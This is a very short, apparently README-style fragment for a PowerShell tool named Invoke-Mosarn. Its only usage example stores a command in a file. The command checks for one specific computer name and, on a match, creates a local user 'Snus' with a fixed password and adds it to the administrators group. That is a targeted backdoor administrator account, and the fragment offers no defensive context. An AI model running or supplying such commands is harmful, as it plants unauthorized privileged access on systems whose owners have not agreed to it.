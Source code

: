 # Invoke-Mosarn

Invoke-Mosarn 'if ($ENV:COMPUTERNAME -eq "DESKTOP-3Q2B6LH"){net user Snus zzzzzz /ADD; net localgroup administrators Snus /ADD }' C:\temp\1.txt
